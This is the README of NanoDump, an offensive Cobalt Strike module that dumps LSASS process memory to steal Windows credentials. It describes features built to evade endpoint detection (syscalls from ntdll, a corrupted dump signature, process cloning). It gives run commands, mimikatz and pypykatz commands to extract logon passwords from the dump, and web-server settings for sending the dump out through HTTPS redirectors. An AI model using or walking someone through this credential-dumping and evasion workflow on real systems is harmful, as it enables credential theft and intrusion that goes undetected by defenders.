

# NanoDump

A Beacon Object File that creates a minidump of the LSASS process.



### Features
- It uses syscalls (with [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2)) for most operations
- Syscalls are called from an *ntdll* address to bypass some syscall detections
- You can choose to download the dump without touching disk or write it to a file
- The minidump by default has an invalid signature to avoid detection
- It reduces the size of the dump by ignoring irrelevant DLLs. The (nano)dump tends to be arround 10 MB in size
- You don't need to provide the PID of LSASS
- No calls to *dbghelp* or any other library are made, all the dump logic is implemented in nanodump
- You can use the .exe version to run *nanodump* outside of Cobalt Strike :smile:

## Usage

### Clone

```bash
git clone https://github.com/helpsystems/nanodump.git
```

### Compile (optional)

```bash
cd nanodump
make
```

### Import

Import the `NanoDump.cna` script on Cobalt Strike.


### Run

Run the `nanodump` command.

```
beacon> nanodump
```

### Restore the signature
Once you downloaded the minidump, restore the invalid signature
```zsh
bash restore_signature.sh <dumpfile>
```

### get the secretz

#### mimikatz
To get the secrets simply run:
```
mimikatz # sekurlsa::minidump <dumpfile>
mimikatz # sekurlsa::logonPasswords full
```

#### pypykatz
If you prefer to stay on linux, you can use the python3 port of mimikatz called [pypykatz](https://github.com/skelsec/pypykatz).  
```sh
python3 -m pypykatz lsa minidump <dumpfie>
```

## Parameters

#### --pid -p < PID > (optional)
PID of lsass. If not entered, nanodump will find it dynamically.

#### --write -w < path > (optional)
Where to write the dumpfile. If this parameter is not provided, the dump will be downloaded in a fileless manner.

#### --valid -v (optional)
If entered, the minidump will have a valid signature.  
If not entered, before analyzing the dump restore the signature of the dump, with: `bash restore_signature.sh <dumpfile>`  

#### --clone -c (optional)
If selected alongside a provided PID, nanodump will first create a handle to the target process with `PROCESS_CREATE_PROCESS` access, before spawning a 'clone' of the process. This new instance of the process will then be the target for memory dumping. While this will result in a new process creation, it removes the need to initially create a handle to lsass with `PROCESS_VM_READ`, which may trigger detection.

## HTTPS redirectors
If you are using an HTTPS redirector (as you should), you might run into issues due to the size of the requests that leak the dump.  
Increase the max size of requests on your web server to allow nanodump to download the dump.

#### NGINX
```
location ~ ^...$ {
    ...
    client_max_body_size 50M;
}
```
#### Apache2
```
<Directory "...">
    LimitRequestBody  52428800
</Directory>
```

## Credits
- [skelsec](https://twitter.com/skelsec) for writing [minidump](https://github.com/skelsec/minidump), which was crucial for learning the minidump file format.
- [freefirex](https://twitter.com/freefirex2) from [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF) at Trustedsec for many cool tricks for BOFs
- [Jackson_T](https://twitter.com/Jackson_T) for [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2)
- [BillDemirkapi](https://twitter.com/BillDemirkapi) for [Process Forking](https://billdemirkapi.me/abusing-windows-implementation-of-fork-for-stealthy-memory-operations/)
